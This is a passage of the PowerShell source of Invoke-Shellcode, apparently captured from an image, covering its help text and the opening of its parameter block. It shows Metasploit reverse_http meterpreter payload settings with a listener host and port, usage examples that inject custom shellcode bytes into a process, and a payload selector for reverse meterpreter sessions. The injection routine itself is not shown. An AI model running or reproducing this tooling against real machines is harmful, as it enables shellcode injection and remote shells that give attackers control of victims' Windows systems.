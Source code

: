 Payload options (windows/meterpreter/reverse_http):

Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  thread           yes       Exit technique: seh, thread, process, none
LHOST     192.168.30.129   yes       The local listener hostname
LPORT     80               yes       The local listener port

.EXAMPLE

C:\PS> Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)
    
Description
-----------
Overrides the shellcode included in the script with custom shellcode - 0x90 (NOP), 0x90 (NOP), 0xC3 (RET)
Warning: This script has no way to validate that your shellcode is 32 vs. 64-bit!
    
.EXAMPLE

C:\PS> Invoke-Shellcode -ListMetasploitPayloads
    
Payloads
--------
windows/meterpreter/reverse_http
windows/meterpreter/reverse_https

.NOTES

Use the '-Verbose' option to print detailed information.

Place your generated shellcode in $Shellcode32 and $Shellcode64 variables or pass it in as a byte array via the '-Shellcode' parameter

Big thanks to Oisin (x0n) Grehan (@oising) for answering all my obscure questions at the drop of a hat - http://www.nivot.org/

.LINK

http://www.exploit-monday.com
#>

[CmdletBinding( DefaultParameterSetName = 'RunLocal', SupportsShouldProcess = $True , ConfirmImpact = 'High')] Param (
    [ValidateNotNullOrEmpty()]
    [UInt16]
    $ProcessID,
    
    [Parameter( ParameterSetName = 'RunLocal' )]
    [ValidateNotNullOrEmpty()]
    [Byte[]]
    $Shellcode,
    
    [Parameter( ParameterSetName = 'Metasploit' )]
    [ValidateSet( 'windows/meterpreter/reverse_http',
                  'windows/meterpreter/reverse_https',
                  IgnoreCase = $True )]
    [String]
    $Payload = 'windows/meterpreter/reverse_http',
    